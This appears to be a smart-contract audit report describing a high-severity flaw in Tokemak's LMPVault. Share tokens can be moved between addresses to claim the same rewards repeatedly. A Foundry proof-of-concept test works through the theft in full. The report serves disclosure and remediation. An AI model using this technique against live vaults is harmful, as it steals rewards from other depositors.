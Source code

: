 lil.eth

high

# User can transfer LMPVault shares to claim rewards multiple times
## Summary

Users deposit funds into LMPVault through the router. They get a share of the generated rewards. ERC20 token represents those shares. Anyone can transfer those shares between multiple addresses to claim rewards more times.

## Vulnerability Detail

A user gets tokens for every deposit into LMPVault. Those tokens represent shares on Vault deposits and rewards.
After rewards accumulate, the user can call the collectRewards function to get rewards based on his shares.
No mechanism prohibits the user from sending those share tokens to another address and claiming rewards multiple times.
Malicious user steals other users' rewards with this simple technique.

### POC

Paste this test function to **LMPVault-Withdraw.t.sol**.

It is necessary to update **IBaseRewarder.sol** for the purpose of this demo. Paste ```function setTokeLockDuration(uint256 _tokeLockDuration) external;``` to expose the function.

Run the test using this command ```forge test --match-contract LMPVaultMintingTests --match-test test_stealRewards```.

```solidity
function test_stealRewards() public {
    // Prepare rewards
    _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
    _lmpVault.rewarder().addToWhitelist(address(this));
    // setTokeLockDuration not present in IBaseRewarder.sol - function setTokeLockDuration(uint256 _tokeLockDuration) external;
    // Lock duration is set to zero for the demonstration that the user can claim rewards with the same shares transferred to another address
    _lmpVault.rewarder().setTokeLockDuration(0);
    _toke.mint(address(this), 1000e18);
    _toke.approve(address(_lmpVault.rewarder()), 1000e18);
    _lmpVault.rewarder().queueNewRewards(1000e18);

    // Prepare users
    address user1 = makeAddr("1");
    address user2 = makeAddr("2");
    address attacker1 = makeAddr("3");
    address attacker2 = makeAddr("4");
    _asset.mint(user1, 1000);
    _asset.mint(user2, 1000);
    _asset.mint(attacker1, 1000);

    assertEq(_lmpVault.balanceOf(address(this)), 0);
    assertEq(_lmpVault.rewarder().balanceOf(address(this)), 0);

    // Deposit
    vm.startPrank(attacker1);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, attacker1);
    vm.stopPrank();

    vm.startPrank(user1);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user1);
    vm.stopPrank();

    vm.startPrank(user2);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user2);
    vm.stopPrank();

    assert(_toke.balanceOf(attacker1) == 0);
    assert(_toke.balanceOf(attacker2) == 0);

    // Warp forward
    vm.roll(block.number + 10_000);

    // Get rewards and transfer shares to the second address
    vm.startPrank(attacker1);
    _lmpVault.rewarder().getReward();
    _lmpVault.transfer(attacker2, 1000);
    vm.stopPrank();

    // Get rewards with seconds address
    vm.startPrank(attacker2);
    _lmpVault.rewarder().getReward();
    vm.stopPrank();
    
    assert(_toke.balanceOf(attacker1) > 0);
    assert(_toke.balanceOf(attacker2) > 0);
}
```

## Impact

Rewards of other users get stolen by one malicious user who transfers share tokens between multiple addresses.

## Code Snippet

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/MainRewarder.sol#L95C5-L117C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/MainRewarder.sol#L95C5-L117C6)

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L128C4-L140C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L128C4-L140C6)

## Tool used

Manual Review

## Recommendation

Prohibit share token transfers between users or track eligibility.
